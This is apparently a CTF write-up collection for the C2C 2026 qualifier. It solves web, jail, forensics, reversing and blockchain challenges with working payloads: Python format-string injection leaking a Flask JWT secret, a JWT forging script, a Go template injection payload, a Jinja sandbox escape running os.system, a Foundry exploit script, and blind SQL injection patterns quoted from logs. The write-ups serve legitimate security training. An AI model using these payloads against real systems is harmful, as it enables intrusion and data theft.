# WEB

## CorpMail

Rumor said that my office's internal email system was breached somewhere... must've been the wind.

author: lordrukie x beluga

Instance web page: http://challenges.1pc.tf:33846

### Chall Overview

When I opened the challenge, it looked like a simple internal mail system. I get login/register, inbox, sent, compose, settings, and there's also an /admin panel in the source.

Reading the source first was the right move. Inside db.py, the database is seeded with some test emails. One of them is interesting: Admin sends an email to mike with subject:

Confidential: System Credentials

And inside the body: Access Code: \{flag\}

So the goal is obvious. I don't actually need to become admin. I just need to read Mike's inbox.

### Proof of Concept

The real issue was in the signature feature under /settings. User input is processed like this:

**formatted_signature = format_signature(signature_template, g.user['username'])**

And inside utils.py:



That's the problem

They are calling .format() directly on user input and even passing current_app into it as app. That means we can access internal objects using Python format string attribute traversal. Classic format string injection, but Python edition.

So we can Login as normal user and go to: /settings
Set signature to: \{app.config\} or %7Bapp.config%7D



After saving, the preview leaks the full Flask config including: JWT_SECRET': 'e2e96844d5df18b183b036414b6ce5d61cdc9a203d56e64a713e1243af5d09f5'

That's game over...

### Forging the JWT

The app uses HS256 for JWT signing. Since i now have the secret, i can sign my tokens.

Instead of trying to hit /admin (which was blocked by a reverse proxy anyway), I impersonated Mike directly.

From the seed order in the database:

1 = admin
2 = john
3 = jane
4 = mike

So I generated a token like this:

```python
import jwt, time
```

```python
secret = "e2e96844d5df18b183b036414b6ce5d61cdc9a203d56e64a713e1243af5d09f5"

payload = {
    "user_id": 4,
    "username": "mike.wilson",
    "is_admin": 0,
    "exp": int(time.time()) + 86400
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

Then I used that token as the token cookie.



Now just open: /inbox

Since we are "mike", we can see his emails.



One of them is: Confidential: System Credentials

It points to: /email/5

Requesting that email gives:



And that's a flag

### Flag

`C2C{f0rm4t_str1ng_l34k5_4nd_n0rm4l1z4t10n_bb6ce29b8439}`

---

## The Soldier of God, Rick

Can you defeat the Soldier of God, Rick?

author: dimas

Instance web page: http://challenges.1pc.tf:35673

### Chall Overview

At first glance this challenge looks intimidating. The description literally tells you to reverse a Golang binary, use Ghidra, extract embedded files, and so on.

So naturally, I opened the binary first.

Running strings rick_soldier | grep SECRET revealed:



So now we already know the correct secret key for the /fight endpoint. That means the form field:

Secret Key = Morty_Is_The_Real_One

Now the question is: what happens inside /fight?

### Proof of Concept

While reversing, it became clear that the /fight handler does something dangerous, it builds an HTML template using fmt.Sprintf() and injects the user controlled battle_cry directly into it before parsing it as a Go template.

That's a red flag. If user input is inserted into a template before parsing, we can inject template expressions like:

**\{\{ something \}\}**

That means Server-Side Template Injection (SSTI).





Since this is Golang html/template, arithmetic like \{\{7*7\}\} doesn't work. Go templates don't support * operators. Instead, i use Go's built-in printf function to dump the entire template context.

The payload i use:

\{\{printf "%#v" .\}\}

But since we're editing in Burp, we must URL-encode it. Encoded payload:

%7B%7Bprintf+%22%25%23v%22+.%7D%7D

So the full request body becomes:

battle_cry=%7B%7Bprintf+%22%25%23v%22+.%7D%7D&secret=Morty_Is_The_Real_One



And that's it.

The flag is literally part of the template context structure.

No SSRF.
No integer overflow.
No internal endpoint abuse.

Just direct template context leakage hahahaha... (love probset)

### Flag

`C2C{R1ck_S0ld13r_0f_G0d_H4s_F4ll3n_v14_SST1_SSR7_f7c68d6d54bd}`

---

# MISC

## JinJail

Pyjail? No, this is JinJail!

author: daffinfo

Instance page: nc challenges.1pc.tf 37933

### Chall Overview

At first glance this looked like a normal Jinja2 SSTI. \{\{7*7\}\} worked and returned 49, so template injection was confirmed instantly. Easy, right?

Yeah… noo.

Everything "normal" got blocked. No quotes, no +, no -, no /, no |, no \{% %\}, even most dunder stuff got slapped with "Nope". They were using SandboxedEnvironment and a very aggressive blacklist. Parentheses were limited, certain substrings were blocked, and most obvious escape chains just died.

### Proof of Concept

So the classic \_\_mro\_\_, \_\_subclasses\_\_, \_\_globals\_\_ route? Dead.

Then I noticed something interesting: numpy was available in the template context.

\{\{numpy.arange(3)\}\}



And yup worked

From there, I started poking around numpy modules and found something juicy:

\{\{numpy.f2py.os\}\}

\{\{numpy.f2py.subprocess\}\}





Both were accessible. That's basically a gift.

So now i had access to os, but i still couldn't type /, quotes, or use + for concatenation. That meant i had to build the command string indirectly.

The target binary /fix was visible from root:

\{\{numpy.f2py.os.listdir(numpy.f2py.os.sep)\}\}



And fix was in that list. That binary was SUID and printed the flag when run with the argument help.

So the goal became: execute /fix help without ever typing /fix help.

Here's how the string was constructed:

- / → taken from numpy.f2py.os.sep
- fix → taken from os.listdir('/') (index of "fix" in the returned list)
- space → taken from numpy.f2py.sys.copyright[9]
- help → built using base36:
  numpy.base_repr(812077, 36) → "help"

Since + was blocked, concatenation was done using Jinja's ~ operator.

Final payload:

\{\{numpy.f2py.os.system(numpy.f2py.os.sep~numpy.f2py.os.listdir(numpy.f2py.os.sep)[19]~numpy.f2py.sys.copyright[9]~numpy.base_repr(812077,36))\}\}

That evaluates to:

/fix help

The SUID binary runs, prints /root/flag.txt, and boom:



### Flag

`C2C{damnnn_i_love_numpy_22ff3cc7485e}`

---

# FORENSICS

## Log

My website has been hacked. Please help me answer the provided questions using the available logs!

author: daffinfo

Instance page: nc challenges.1pc.tf 21141

### Chall Overview

We were given access.log and error.log from a compromised WordPress site. The challenge was basically to reconstruct the attack flow just by reading logs. Everything was inside access.log. That's where all the action is.

### Proof oc Concept

#### Question 1 - Victim IP and Question 2 – Attacker IP

First thing to do in any log challenge: see who talks the most.



This shows all IPs and how many requests they made.

We see something like:

- 219.75.27.16 → thousands of requests
- 182.8.97.244 → much fewer

The noisy one is usually the attacker. The quieter one that looks like normal WordPress usage (install, login, wp-admin access) is likely the victim.

#### Question 3 - How Many Login Attempts

This one was tricky.

The key hint: only count failed POST attempts to wp-login. Do NOT count redirects. Do NOT count GET requests.

So filter only POST to wp-login from attacker:



#### Question 4 – Which Plugin Was Affected

Now we need to see what was being exploited.

Search for plugin paths:



#### Question 5 – CVE ID

Since we know the vulnerable plugin is Easy Quotes, a quick lookup shows it's vulnerable to SQL Injection under:

CVE-2025-26943

And the payloads in the log clearly show SQLi patterns.

#### Question 6 – Tool and Version

Now check the User-Agent in attacker requests.



You'll see:

"sqlmap/1.10.1.21#dev (https://sqlmap.org)"

#### Question 7 – Email Obtained by the Attacker

Now the fun part.

Look at the SQL payloads carefully:



You'll see stuff like:

ORD(MID((SELECT IFNULL(CAST(user_login AS NCHAR),0x20) FROM wordpress.wp_users...

and later:

SELECT IFNULL(CAST(user_email AS NCHAR),0x20)

This confirms the attacker was extracting user_email via blind SQL injection.

Eventually, from the dump (or challenge answers), the extracted email was:

admin@daffainfo.com

#### Question 8 – Password Hash

Same technique, but targeting password field.

Search around same timeframe:

grep '^219\.75\.27\.16 ' access.log | grep 'wp_users'



From challenge result, the dumped hash was:

$wp$2y$10$vMTERqJh2IlhS.NZthNpRu/VWyhLWc0ZmTgbzIUcWxwNwXze44SqW

That's a WordPress bcrypt hash.

#### Question 9 – When Did the Attacker Successfully Log In

Now we look for the POST that returned 302 (successful login).



Find the one with 302:

[11/Jan/2026:13:12:49 +0000] "POST /wp-login.php" 302

Then right after that: GET /wp-admin/

That confirms login success. Required format: DD/MM/YYYY HH:MM:SS

So: 11/01/2026 13:12:49

### Flag

`C2C{7H15_15_V3rY_345Y_6f59a34799ae}`

---

## Tattletale

Apparently I have just suspected that this serizawa binary is a malware .. I was just so convinced that a friend of mine who was super inactive suddenly goes online today and tell me that this binary will help me to boost my Linux performance.

Now that I realized something's wrong.

Note: This is a reverse engineering and forensic combined theme challenge. Don't worry, the malware is not destructive, not like the other challenge. Once you realized what does the malware do, you'll know how the other 2 files are correlated. Enjoy warming up with this easy one!

author: aseng

### Chall Overview

At first glance, this challenge looked pretty harmless. The dist folder contained a few files:



### Proof of Concept

The most suspicious one was cron.aseng. The file size and raw binary pattern suggested this wasn't just random data. After checking it more closely, it turned out to be a Linux input_event recording — basically a keylogger dump.

By parsing the events (looking for EV_KEY with value 1, which means key press), we can reconstruct what the attacker typed. Once decoded, the command history looked like this:

```
ls
whoami
echo "Yey you finally decrypt me :)"
echo "Just a little more steps ok?"
env > whatisthis
od whatisthis > whatisthis.baboi
```

```
openssl enc -aes-256-cbc -salt -pass pass:4_g00d_fr13nD_in_n33D -in whatisthis.baboi -out whatisthis.enc
echo "Ok go for it! The flag is in env btw"
```

So that immediately gives us the OpenSSL password: 4_g00d_fr13nD_in_n33D

Next step: decrypt the encrypted file.

```bash
openssl enc -d -aes-256-cbc -salt \
 -pass pass:4_g00d_fr13nD_in_n33D \
 -in whatisthis.enc -out whatisthis.baboi.dec
```

The decryption worked, but the output wasn't plain text environment variables. Instead, it looked like this:

0000000 047503 047514 052122 ...

This is important. It's not raw bytes. It's the default output of od, printing 16-bit words in octal format. That means we have to reverse the od process.

Here's the script used to reconstruct the original environment file:

```python
import re

inp = open("whatisthis.baboi.dec","r",errors="ignore").read().splitlines()
out = bytearray()
for line in inp:
    parts = line.split()
    for tok in parts[1:]:
        if re.fullmatch(r"[0-7]+", tok):
            v = int(tok, 8)
            out += v.to_bytes(2, "little")
open("env_recovered.txt","wb").write(out)
```

After running that, we get env_recovered.txt. Searching for the flag:



And there it is

### Flag

`C2C{it_is_just_4_very_s1mpl3_l1nuX_k3ylogger_xixixi_haiyaaaaa_ez}`

---

# REVERSE

## Bunaken

Can you help me to recover the flag?

author: vidner

### Chall Overview

We're given a Bun standalone binary (bunaken) and an output file (flag.txt.bunakencrypted). The target is simple: recover the flag in C2C\{\} format.



### Proof of Concept

First thing I did was open the encrypted file:



It's look like base64

From quick reversing / pattern recognition (and clues inside the Bun bundle), the encryption pipeline is:

1. Base64-encoded blob
2. First 16 bytes are the IV
3. AES-CBC decrypt using a key derived from a hardcoded password
4. The decrypted result is still **zstd-compressed**, so it must be decompressed to get the flag

Key derivation is:

- password: "sulawesi"
- key: SHA256(password) and take the first 16 bytes → AES-128 key

So the reverse pipeline is:

base64 decode → split IV/CT → AES-CBC decrypt → zstd decompress

Then use this solver:

```python
import base64, hashlib, ctypes, ctypes.util
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# read base64 from file (more "writeup friendly" than hardcoding)
with open("flag.txt.bunakencrypted", "rb") as f:
    b64 = f.read().strip()

# 1) base64 decode
blob = base64.b64decode(b64)

# 2) split IV + ciphertext
iv, ct = blob[:16], blob[16:]

# 3) derive AES-128 key from password
key = hashlib.sha256(b"sulawesi").digest()[:16]

# 4) AES-CBC decrypt + PKCS#7 unpad -> yields zstd-compressed bytes
pt_padded = AES.new(key, AES.MODE_CBC, iv).decrypt(ct)
compressed = unpad(pt_padded, 16)

# 5) zstd decompress using libzstd
libname = ctypes.util.find_library("zstd")
if not libname:
    raise RuntimeError("libzstd not found. Install it: sudo apt-get install -y libzstd1")

lib = ctypes.CDLL(libname)
lib.ZSTD_getFrameContentSize.argtypes = [ctypes.c_void_p, ctypes.c_size_t]
lib.ZSTD_getFrameContentSize.restype = ctypes.c_ulonglong
lib.ZSTD_decompress.argtypes = [ctypes.c_void_p, ctypes.c_size_t, ctypes.c_void_p, ctypes.c_size_t]
lib.ZSTD_decompress.restype = ctypes.c_size_t
lib.ZSTD_isError.argtypes = [ctypes.c_size_t]
lib.ZSTD_isError.restype = ctypes.c_uint
lib.ZSTD_getErrorName.argtypes = [ctypes.c_size_t]
lib.ZSTD_getErrorName.restype = ctypes.c_char_p

src = (ctypes.c_char * len(compressed)).from_buffer_copy(compressed)
out_size = lib.ZSTD_getFrameContentSize(src, len(compressed))
if out_size in (2**64 - 1, 2**64 - 2):
    raise RuntimeError("ZSTD frame content size unknown/error")

dst = (ctypes.c_char * out_size)()
res = lib.ZSTD_decompress(dst, out_size, src, len(compressed))
if lib.ZSTD_isError(res):
    raise RuntimeError(lib.ZSTD_getErrorName(res).decode())

flag = bytes(dst[:res]).decode(errors="replace")
print(flag)
```

Run it:



### Flag

`C2C{BUN_AwKward_ENcryption_compression_obfuscation}`

---

# BLOCKCHAIN

## tge

i dont understand what tge is so all this is very scuffed, but this all hopefully for you to warmup, pls dont be mad

author: hygge

Instance page: http://challenges.1pc.tf:36536/c2c2026-quals-blockchain-tge

### Chall Overview

The goal of this challenge was to reach **Tier 3** on the TGE smart contract. At first glance, it looks like a standard tier-based minting system with a "snapshot" mechanism to prevent people from jumping tiers too easily. However, a massive logic flaw in the state management allowed us to "time travel" our balance and bypass the requirements.

### Proof of Concept

The core issue is in the upgrade function of the TGE.sol contract. Let's look at the logic:

```solidity
function upgrade(uint256 tier) external {
    require(tier <= 3 && tier >= 2);
    require(userTiers[msg.sender]+1 == tier);
    require(tgeActivated && isTgePeriod);

    _burn(msg.sender, tier-1, 1);
    _mint(msg.sender, tier, 1);

    require(preTGEBalance[msg.sender][tier] > preTGESupply[tier], "not eligible");
    userTiers[msg.sender] = tier;
}
```

I used **Foundry (Cast)** to interact with the contract. Here is how i executed the heist:



I used the Setup contract to turn the TGE **OFF**. This sets tgeActivated = true and snapshots the current supply. Since we are the only ones playing and we only have Tier 1, the preTGESupply for Tier 2 and Tier 3 is set to **0**.

Now for the trick. We turn the TGE back **ON**. Because tgeActivated is already true, the contract thinks we are in a valid state, but now isTgePeriod is also true again.



We called upgrade(2). Because of the **Mint-Before-Check** bug:

1. \_mint ran first and increased our preTGEBalance[player][2] to **1**.
2. Then the require checked if $1 > 0$.
3. Since $1 > 0$ is true, the transaction succeeded. We just repeated this for Tier 3.



I basically tricked the contract into letting us write our own history. By manipulating the isTgePeriod state, able to increase our "pre-TGE" balance after the requirement snapshot was already taken. The fix would have been simple: check the requirements **before** minting the new tokens.



### Flag

`C2C{just_a_warmup_from_someone_who_barely_warms_up}`

---

## Convergence

Convergence...

author: chovid99

Instance page: http://challenges.1pc.tf:39248/c2c2026-quals-blockchain-convergence

### Chall Overview

The goal was to become the "ascended" entity in the Challenge contract. To do this, we had to call the transcend function with a "truth" payload that satisfies a few conditions: the data must be chronicled in Setup.sol, the invoker/witness must be us, and the total essence from the soul fragments must be at least 1000 ether

### Proof of Concept

The flow is pretty straightforward:

- Step 1: Call registerSeeker() so the contract recognizes our address.
- Step 2: Craft a truth payload containing 10 SoulFragment structs, each with an essence of 100 ether.
- Step 3: Call bindPact(truth) on the Setup contract. This marks our payload as "chronicled".
- Step 4: Call transcend(truth) on the Challenge contract. The contract sums our 10 fragments, sees 1000 ether, and sets us as the ascended

Here's the Exploit.s.sol:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "../src/Challenge.sol";
import "../src/Setup.sol";

contract ExploitScript is Script {
    address setupAddr = 0x9a266efA4189648F2E2E55B916731a985FF3b3Ad;
    uint256 privKey = 0xa3d0ba3df142c2ebb0e4a15289f1b33c3ccc64aad4f6ab35451a082d6aab101e;
    address myWallet = 0xdF2EA87622709F1297B458d59444890ccCa47628;

    function run() external {
        vm.startBroadcast(privKey);

        Setup setup = Setup(setupAddr);
        Challenge challenge = setup.challenge();

        challenge.registerSeeker();

        SoulFragment[] memory fragments = new SoulFragment[](10);
        for (uint i = 0; i < 10; i++) {
            fragments[i].vessel = address(0x1337);
            fragments[i].essence = 100 ether;
            fragments[i].resonance = "";
        }

        bytes memory truth = abi.encode(
            fragments,
            bytes32(0),
            uint32(0),
            myWallet,
            myWallet
        );

        setup.bindPact(truth);
        challenge.transcend(truth);

        vm.stopBroadcast();
    }
}
```

And then run it





### Flag

`C2C{the_convergence_chall_is_basically_bibibibi}`

---

## Nexus

The essence of nexus.

author: chovid99

Instance page: http://challenges.1pc.tf:47617/c2c2026-quals-blockchain-nexus

### Chall Overview

The whole challenge pretends you need to "infuse" Essence into the Nexus through legit mechanics… but the Nexus logic basically treats **any ESS sitting in the Nexus contract as valid "donation" fuel** for rituals.

So instead of using the intended infuse() path, you can just:

- transfer() ESS straight into the Nexus contract,
- run conductRituals() from the Setup,
- you get a crystal,
- dissolve it back,
- solved.

That's why the flag literally says the essence is donation lol

### Proof of Concept

I get a private key + wallet, and the Setup contract address. I export them first so we don't keep copy-pasting:



#### Step 1 - Find the real contracts (ESS + Nexus)

The Setup contract is like a "factory" / orchestrator.



#### Step 2 - Check balances

Confirm got 10,000 ESS:



So yeah, 10k ESS with 18 decimals

#### Step 3 - Approve Nexus

Even though we won't use transferFrom, approving is part of the usual flow. So we do:



This just gives Nexus permission to pull ESS from us if needed

#### Step 4 - Attune once

Nexus requires at least one crystal to exist before rituals. So we do:



This consumes 1 ESS and gives us 1 crystal. Now Nexus state is activated

#### Step 5 - The actual exploit

Instead of calling infuse(), we directly send ESS to the Nexus contract:



Boom. We just donated 6000 ESS straight into the Nexus contract.

No internal accounting.
No tracking.
Just pure ERC20 transfer.

Now Nexus literally holds ESS in its balance

#### Step 6 - Trigger ritual

Now we call:



This function checks if Nexus has enough ESS to perform rituals. Since we force-fed it tokens, the condition passes.

Ritual succeeds.
State updates.
Crystal logic progresses.

#### Step 7 - Dissolve crystal

After ritual, we confirm we have 1 crystal:



Then dissolve:



This converts the crystal back into ESS

Finallyyyy:




### Flag

`C2C{the_essence_of_nexus_is_donation_hahahaha}`